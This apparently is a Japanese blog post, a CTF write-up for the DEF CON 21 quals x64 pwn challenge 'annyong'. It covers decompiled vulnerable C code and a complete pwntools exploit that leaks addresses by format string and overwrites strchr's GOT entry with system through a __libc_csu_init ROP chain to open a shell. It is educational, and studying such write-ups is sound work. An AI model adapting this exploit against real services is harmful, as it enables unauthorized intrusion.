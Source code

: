 ```yaml
---
layout: post
alias: "/blog/2016/02/21/defcon-21-quals-annyong/"
date: 2016-02-21T04:42:03+09:00
tags: [ "ctf", "writeup", "pwn", "defcon", "x64", "return-oriented-programming", "return-to-vuln", "libc-csu-init", "buffer-overflow" ]
---
```


# defcon 21 quals annyong

pwn会で。x64のrop問で解きたいものがあるが難しいので、その踏み台として持ってきたもの。

## [annyong](http://shell-storm.org/repo/CTF/Defcon-21-quals/annyong/)

### 準備

``` sh
$ file annyong
annyong: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=53cd09f49e09b946a74a1b345555bef4bce1f87a, stripped
$ checksec --file annyong
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   annyong
```

x64のrop。DEP PIEあり。RELRO SSPなし。libcなし。
使われていない関数がいくらかあるが、それらを除くと以下だけの小さなバイナリ。

``` c
#include <stdio.h>
#include <string.h>

void vuln(void) {
    char buf[0x800]; // rbp-0x810
    int done = 0; // rbp-0x4
    while (done != 0) {
        fgets(buf, 0x900, stdin); // buffer overflow
        if (strchr(buf, 'n')) {
            puts( "I don't think so...");
        } else {
            printf(buf); // format string atttack
            fflush(stdout);
        }
    }
}

int main(void) {
    vuln();
}
```

### 攻撃

1.  まず`printf`によるformat文字列攻撃で準備。
    -   `n`があると怒られるので読み取りしかでない。
2.  本命`fgets`によるbuffer-overflowからのrop。
    -   `__libc_csu_init`を使う。
        -   [x64でROP stager + Return-to-dl-resolve + \_\_libc\_csu\_init gadgetsによるASLR+DEP回避をやってみる - ももいろテクノロジー](http://inaz2.hatenablog.com/entry/2014/07/31/010158)
    -   `strchr`のgotに`system`のそれを書き込んで戻ってくる。
    -   書き込みには`read`を使う。
3.  `fgets`に`/bin/sh\0\n`を送ると`strchr`経由で`system("/bin/sh", "n")`が叩かれてshellが起動。
    -   直接ropで`system`しないのは第1引数に大きな値を渡せないから。(`mov edi, r13d`であるため)

### 実装

`__libc_csu_init`注意点

-   `__libc_csu_init`の末尾で実質的にpopするのは`[rsp+0x8]`からなので8byteの埋め草が要ること。
-   `call r12`でなく`call [r12]`であること。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
parser.add_argument('--leak-libc')
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('./annyong')
vuln_ofs = 0x108c
buf_rbpofs = 0x810 # buf is at rbp-0x810
buf_ix = 6 # buf is shown by %6$p
libc_csu_init_a_ofs = 0x1180
libc_csu_init_b_ofs = 0x1196

p = remote(args.host, args.port)

p.sendline('%%%d$p %%%d$p' % (buf_ix + buf_rbpofs / 8, buf_ix + buf_rbpofs / 8 + 1))
saved_rbp, ret = map(lambda x: int(x, 16), p.recvline().split())
rbp = saved_rbp - 0x10  # main+0, push rbp
bin_base = ret - 0x1127 # main+0x9
log.info('current rbp: ' + hex(rbp))
log.info('bin base: ' + hex(bin_base))
buf = rbp - buf_rbpofs

s = ''
while len(s) < 8:
    p.sendline('%7$sABCD' + p64(bin_base + elf.got['__libc_start_main'] + len(s)))
    s += p.recv().split('ABCD')[0] or '\0'
libc_start_main = u64(s[:8])
log.info('__libc_start_main: ' + hex(libc_start_main))

if True:
    libc = ELF('/usr/lib64/libc.so.6')
    libc_base = libc_start_main - libc.symbols['__libc_start_main']
    system_ofs = libc.symbols['system']

if args.leak_libc:
    l, r = map(int, args.leak_libc.split(','))

    payload = ''
    payload += '\0'
    payload += 'A' * (buf_rbpofs - len(payload)) # buf, break-flag
    payload += 'A' * 8 # rbp
    payload += p64(bin_base + libc_csu_init_b_ofs)
    payload += 'A' * 8
    payload += p64(0) # rbx
    payload += p64(1) # rbp
    payload += p64(bin_base + elf.got['write']) # r12 -> call [r12]
    payload += p64(1) # STDOUT_FILENO # r13 -> edi
    payload += p64(libc_start_main + l) # r14 -> rsi
    payload += p64(r - l) # r15 -> rdx
    payload += p64(bin_base + libc_csu_init_a_ofs) # ret
    p.sendline(payload)
    print p.recvall()

else:
    payload = ''
    payload += 'A' * buf_rbpofs # buf, break-flag
    payload += 'A' * 8 # rbp
    payload += p64(bin_base + libc_csu_init_b_ofs)
    payload += 'A' * 8
    payload += p64(0) # rbx
    payload += p64(1) # rbp
    payload += p64(bin_base + elf.got['read']) # r12 -> call [r12]
    payload += p64(0) # STDIN_FILENO # r13 -> edi
    payload += p64(bin_base + elf.got['strchr']) # r14 -> rsi
    payload += p64(8) # r15 -> rdx
    payload += p64(bin_base + libc_csu_init_a_ofs) # ret
    payload += 'A' * 8 * 7
    payload += p64(bin_base + vuln_ofs) # ret
    p.sendline(payload)

    time.sleep(0.1)
    p.send(p64(libc_base + system_ofs))

    time.sleep(0.1)
    p.sendline('/bin/sh\0')

    time.sleep(0.1)
    p.sendline('ls')
    p.interactive()
```
